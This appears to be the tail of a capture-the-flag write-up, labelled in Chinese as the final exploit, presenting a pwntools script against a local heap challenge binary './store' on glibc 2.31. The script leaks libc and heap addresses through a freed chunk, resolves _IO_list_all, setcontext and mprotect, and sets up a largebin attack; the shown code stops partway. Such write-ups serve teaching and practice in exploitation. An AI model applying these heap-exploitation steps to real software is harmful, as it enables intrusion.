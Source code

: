 最后的 exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./store'])
elf = ELF('./store')
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')


def menu(choice: int):
    sh.sendlineafter(b"choice: ", str(choice).encode())


def add(size: int, content: bytes, remark: bytes):
    menu(1)
    sh.sendlineafter(b"Size: ", str(size).encode())
    sh.sendafter(b"Content: ", content)
    sh.sendafter(b"Remark: ", remark)


def delete(idx: int):
    menu(2)
    sh.sendlineafter(b"Index: ", str(idx).encode())


def edit(idx: int, content: bytes, remark: bytes):
    menu(3)
    sh.sendlineafter(b"Index: ", str(idx).encode())
    sh.sendafter(b"Content: ", content)
    sh.sendafter(b"Remark: ", remark)


def show(idx: int):
    menu(4)
    sh.sendlineafter(b"Index: ", str(idx).encode())


add(0x460, b'\x00', b'\x00')  # 0
add(0x440, b'\x00', b'\x00')  # 1
delete(0)
show(0)

sh.recvuntil(b"Content: \n")
libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
largebin_fd = libc_base + 0x1ebfe0
io_list = libc_base + libc.sym['_IO_list_all']
io_wfile_jumps = libc_base+libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']
mprotect = libc_base + libc.sym['mprotect']
print("libc_base >>>", hex(libc_base))

menu(1)
sh.sendlineafter(b"Size: ", str(0x480).encode())
edit(0, b'A'*0x10, b'\x00')
show(0)

sh.recvuntil(b'A'*0x10)
heap_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x290
print("heap_base >>>", hex(heap_base))
edit(0, p64(largebin_fd)*2 + p64(heap_base + 0x290) + p64(io_list-0x20), b'\x00')
```